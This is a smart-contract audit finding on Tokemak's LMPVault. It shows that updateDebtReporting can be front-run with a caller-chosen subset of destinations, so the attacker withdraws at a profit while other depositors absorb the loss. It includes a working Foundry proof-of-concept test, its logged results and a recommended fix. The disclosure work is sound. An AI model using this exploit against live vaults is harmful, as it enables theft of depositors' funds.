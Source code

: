 Wonderful Sage Goldfish

high

# updateDebtReporting can be front run, putting all the loss on later withdrawals but taking the profit

## Summary
updateDebtReporting takes in a **user input** of destinations in array whose debt to report, so if a destination vault is incurring loss and is not on the front of withdrawalQueue than a attacker can just  update debt for only the destination which are incurring a profit and withdraw in the same txn. He will exit the vault with profit, others who withdraw after the legit updateDebtReporting txn will suffer even more loss than they should have, as some part of the profit which was used to offset the loss was taken by the attacker and protocol fees

## Vulnerability Detail
POC- 
1. LMPVault has 2000 in deposits 1000 from alice and 1000 from bob
2. Vault has invested that in 1000 in DestinationVault1 & 1000 in DestinationVault2 (no idle for simple calculations)
3. Now  Dv1 gain a profit of 5%(+50 base asset) while Dv2 is in 10% loss(-100 base asset)
4. So vault has net loss of 50. Now alice does a updateDebtReporting(\[Dv1]) and not including Dv2 in the input array.
5. Now she withdraws her money, protocol now falsely believes there is a profit, it also take 20% profit fees(assumed) and mints 10 shares for itself and alice walks away with roughly 1020 assets, incurring no loss
6. Now a legit updateDebtReporting txn comes and bob has to account in for the loss

Test for POC - 
Add it to LMPVaultMintingTests contract in LMPVault-Withdraw.t.sol file  under path test/vault.  run it via the command
```solidity
forge test --match-path test/vault/LMPVault-Withdraw.t.sol --match-test test_AvoidTheLoss -vv
```

```solidity
function test_AvoidTheLoss() public {

// for simplicity sake, i'll be assuming vault keeps nothing idle

// as it does not affect the attack vector in any ways

_accessController.grantRole(Roles.SOLVER_ROLE, address(this));

_accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

address feeSink = vm.addr(555);

_lmpVault.setFeeSink(feeSink);

_lmpVault.setPerformanceFeeBps(2000); // 20%

address alice = address(789);

uint initialBalanceAlice = 1000;

// User is going to deposit 1000 asset

_asset.mint(address(this), 1000);

_asset.approve(address(_lmpVault), 1000);

uint shareBalUser = _lmpVault.deposit(1000, address(this));

_underlyerOne.mint(address(this),500);

_underlyerOne.approve(address(_lmpVault),500);

_lmpVault.rebalance(

address(_destVaultOne),

address(_underlyerOne),

500,

address(0),

address(_asset),

1000

);

_asset.mint(alice,initialBalanceAlice);

vm.startPrank(alice);

_asset.approve(address(_lmpVault),initialBalanceAlice);

uint shareBalAlice = _lmpVault.deposit(initialBalanceAlice,alice);

vm.stopPrank();

// rebalance to 2nd vault

_underlyerTwo.mint(address(this), 1000);

_underlyerTwo.approve(address(_lmpVault),1000);

_lmpVault.rebalance(

address(_destVaultTwo),

address(_underlyerTwo),

1000,

address(0),

address(_asset),

1000

);

// the second destVault incurs loss, 10%

_mockRootPrice(address(_underlyerTwo), 0.9 ether);

  

// the first vault incurs some profit, 5%

// so lmpVault is in netLoss of 50 baseAsset

_mockRootPrice(address(_underlyerOne), 2.1 ether);

// malicious updateDebtReporting by alice

address[] memory alteredDestinations = new address[](1);

alteredDestinations[0] = address(_destVaultOne);

vm.prank(alice);

_lmpVault.updateDebtReporting(alteredDestinations);

  

// alice withdraws first

vm.prank(alice);

_lmpVault.redeem(shareBalAlice , alice,alice);

uint finalBalanceAlice = _asset.balanceOf(alice);

emit log_named_uint("final Balance of alice ", finalBalanceAlice);

// protocol also collects its fees

// further wrecking the remaining LPs

emit log_named_uint("Fees shares give to feeSink ", _lmpVault.balanceOf(feeSink));

assertGt( finalBalanceAlice, initialBalanceAlice);

assertGt(_lmpVault.balanceOf(feeSink), 0);

// now updateDebtReporting again but for all DVs

_lmpVault.updateDebtReporting(_destinations);

  

emit log_named_uint("Remaining LPs can only get ",_lmpVault.maxWithdraw(address(this)));

emit log_named_uint("Protocol falsely earned(in base asset)", _lmpVault.maxWithdraw(feeSink));

emit log_named_uint("Vault totalAssets" , _lmpVault.totalAssets());

emit log_named_uint("Effective loss take by LPs", 1000 - _lmpVault.maxWithdraw(address(this)));

emit log_named_uint("Profit for Alice",_asset.balanceOf(alice) - initialBalanceAlice);

}
```


Logs:
  final Balance of alice : 1019
  Fees shares give to feeSink : 10
  Remaining LPs can only get : 920
  Protocol falsely earned(in base asset): 9
  Vault totalAssets: 930
  Effective loss take by LPs: 80
  Profit for Alice: 19

## Impact
Theft of user funds.
Submitting as high as attacker only needs to frontrun a updateDebtReporting txn with malicious input and withdraw his funds.
## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L628-L630C6

```solidity
function updateDebtReporting(address[] calldata _destinations) external nonReentrant trackNavOps { // @audit < user controlled input

_updateDebtReporting(_destinations);

}
```

## Tool used

Manual Review

## Recommendation 

 updateDebtReporting should not have any input param, should by default update for all added destination vaults
